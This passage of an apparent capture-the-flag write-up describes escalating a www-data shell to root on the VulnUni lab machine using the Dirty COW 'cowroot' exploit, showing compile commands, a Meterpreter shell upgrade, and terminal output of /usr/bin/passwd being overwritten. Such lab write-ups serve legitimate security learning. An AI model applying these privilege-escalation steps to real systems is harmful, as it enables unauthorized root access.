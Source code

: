 <div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        <img class="img-fluid rounded z-depth-1" src="/assets/images/posts/2020-06-02-vulnuni-ctf-writeup/vulnuni9.png">
    </div>
</div>
<div class="caption">
    The output of the BeRoot exploit suggestion script
</div>      

There are several dirty cow exploits available, each one uses a slightly different method of triggering the exploit. The GitHub wiki pages includes a list of POC’s. I tried a few of these however running the exploit caused the target VM to crash, a common problem experienced when using dirty cow. The best option I found was to use the SUID-based root exploit cowroot. I copied the POC to my machine, compiled it with gcc, and then transferred it to the target with wget. 

```bash
root@kali$ root@kali:~/Desktop# gcc -pthread cowroot.c -o cowroot 
```

With the exploit on the target machine, I made it executable with chmod and executed it. The dirty cow exploit upgraded my limited www-data shell to a full root shell. I quickly read the flag in the root directory with cat. 

```bash
root@kali$ msf >
meterpreter > shell
Process 2241 created.
Channel 0 created.
export TERM=xterm
export SHELL=bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
python -c ‘import pty;pty.spawn(“/bin/bash”)’
www-data@vulnuni:/var/www/vulnuni-eclass/courses/tmpUnzippingroot@kali$ ./cowroot
./cowroot
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
Size of binary: 42824
Racing, this may take a while..
/usr/bin/passwd overwritten
Popping root shell.
Don’t forget to restore /tmp/bak
thread stopped
thread stopped
root@vulnuni:/var/www/vulnuni-eclass/courses/tmpUnzipping# cat /root/flag.txt
cat /root/flag.txt
ff19f8d0692fe20f8af33a3bfa6635dd
root@vulnuni:/var/www/vulnuni-eclass/courses/tmpUnzipping# whoami
whoami
root
root@vulnuni:/var/www/vulnuni-eclass/courses/tmpUnzipping# id
id
uid=0(root) gid=33(www-data) groups=0(root),33(www-data)
root@vulnuni:/var/www/vulnuni-eclass/courses/tmpUnzipping#
```
<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        <img class="img-fluid rounded z-depth-1" src="/assets/images/posts/2020-06-02-vulnuni-ctf-writeup/vulnuni10.png">
    </div>
</div>
<div class="caption">
    Reading the final flag with root permission
</div>      
